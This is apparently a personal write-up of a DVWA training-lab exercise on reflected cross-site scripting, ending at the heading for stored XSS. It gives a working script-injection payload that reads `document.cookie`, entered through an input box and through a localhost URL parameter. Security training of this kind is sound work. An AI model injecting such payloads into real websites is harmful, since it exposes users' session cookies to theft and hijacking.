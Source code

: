 
# 11. Reflected Cross Site Scripting (XSS)

## 觀察

可以直接從 input box 輸入也可以從 URL bar 輸入 malicious script

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2099.png)

### ✨Done✨

```html
<script>console.log(document.cookie)</script>
```

```html
localhost:8086/vulnerabilities/xss_r/?name=<script>console.log(document.cookie)</script>
```

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%20100.png)

---

# 12. Stored Cross Site Scripting (XSS)
